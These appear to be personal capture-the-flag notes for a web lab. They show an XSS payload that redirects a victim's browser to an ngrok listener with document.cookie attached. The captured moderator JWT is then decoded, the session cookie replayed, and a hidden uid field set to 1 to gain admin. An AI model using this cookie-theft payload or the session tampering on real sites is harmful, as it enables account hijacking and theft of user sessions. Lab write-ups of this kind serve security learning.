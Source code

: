 
https://null-byte.wonderhowto.com/how-to/write-xss-cookie-stealer-javascript-steal-passwords-0180833/

1. `python3 -m http.server 80`
2. `ngrok http 80`
3. `<script>window.location="https://0c87-5-151-88-193.eu.ngrok.io/?c="+document.cookie`
4. get session token: ![[Screenshot 2022-05-15 at 12.55.10.png]]
5. decrypt token `python /home/kali/tools/jwt_tool/jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MTU2MDR9.IX_ckmytrfnplle7FDClGjHByXYomX9FxjL2Lr_myXE`: ![[Screenshot 2022-05-15 at 12.56.49.png]]
6. set cookie of site: either through a burp `Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MTU2MDR9.IX_ckmytrfnplle7FDClGjHByXYomX9FxjL2Lr_myXE` header or on the website console with `document.cookie=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MTU2MDR9.IX_ckmytrfnplle7FDClGjHByXYomX9FxjL2Lr_myXE`
7. go to _http:ip/settings_ with this cookie in the header: ![[Screenshot 2022-05-15 at 13.17.08.png]]
	![[Screenshot 2022-05-15 at 13.17.46.png]]
8. changed the hidden field _uid_ to 1: ![[Screenshot 2022-05-15 at 13.18.29.png]]
9. logged in as admin + got the flag: ![[Screenshot 2022-05-15 at 13.19.30.png]]